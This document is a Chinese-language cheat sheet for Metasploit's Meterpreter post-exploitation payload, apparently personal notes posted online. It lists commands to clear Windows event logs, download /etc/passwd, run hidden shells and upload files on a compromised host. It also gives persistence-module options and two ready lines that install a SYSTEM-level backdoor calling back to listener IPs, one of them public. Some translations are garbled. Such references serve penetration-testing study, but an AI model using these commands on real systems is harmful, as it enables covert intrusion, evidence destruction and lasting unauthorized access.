 # Meterpreter是一种先进的，可动态扩展的有效负载

它使用内存中的 DLL注入阶段，并在运行时通过网络扩展。它通过stager套接字进行通信并提供全面的客户端Ruby API。


background=bg 会话发送到后台并返回到msf提示符

clearev   命令将清除Windows系统上的应用程序，系统和安全日志。
download  download /etc/passwd /tmp  提供Windows路径时使用双斜线。
edit  命令打开位于目标主机上的文件。它使用'vim'，所有编辑器的命令都可用。 edit /home/1.txt
execute 在目标上运行一个命令。  execute -f cmd.exe -i -H
getuid  显示Meterpreter服务器在主机上运行的用户。
ps  命令显示目标上正在运行的进程的列表。
resource 命令将执行位于文本文件内的Meterpreter指令。 每行包含一个条目，“资源”将按顺序执行每行。echo 'ls \n pwd '>1.txt && resource 1.txt
search  命令供了一种在目标主机上查找特定文件的方法  search -f xiao
shell   命令将为您提供目标系统上的标准shell。
upload   与“download”命令一样，您需要使用上传命令使用双斜线。 upload /tmp/user /home



set exitonsession false  开启允许多个连接

run -j   后台运行

show advanced 

建立持续性后门
run persistence -h

    -A   自动启动一个匹配的exploit / multi / handler来连接到代理
    -L   如果未使用％TEMP％，则在目标主机中写入有效负载的位置。
    -P   有效负载使用，默认为windows / meterpreter / reverse_tcp。
    -S   作为服务自动启动代理程序（具有SYSTEM权限）
    -T   要使用的备用可执行模板
    -U   用户登录时自动启动代理
    -X   系统引导时自动启动代理程序
    -h   这个帮助菜单
    -i   每次连接尝试之间的时间间隔（秒）
    -p   运行Metasploit的系统正在侦听的端口
    -r   运行Metasploit监听连接的系统的IP

run persistence -S -U -X -i 5 -p 6666 -r 192.168.190.141
run persistence -S -U -X -i 5 -p 4444 -r 47.95.141.60




Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         帮助菜单
    background                背景当前会话
    bg                        别名为背景
    bgkill                    杀死背景measpreter脚本
    bglist                    列出运行后台脚本
    bgrun                     作为背景线程执行纸张脚本
    channel                   显示信息或控制活动通道
    close                     关闭一个频道
    detach                    分离meterPreter会话（对于HTTP / HTTPS）
    disable_unicode_encoding  禁用Unicode字符串的编码
    enable_unicode_encoding   启用Unicode字符串的编码
    exit                      终止仪表会话
    get_timeouts              获取当前会话超时值
    guid                      获取会话GUID
    help                      帮助菜单
    info                      显示有关帖子模块的信息
    irb                       在当前会话上打开交互式Ruby shell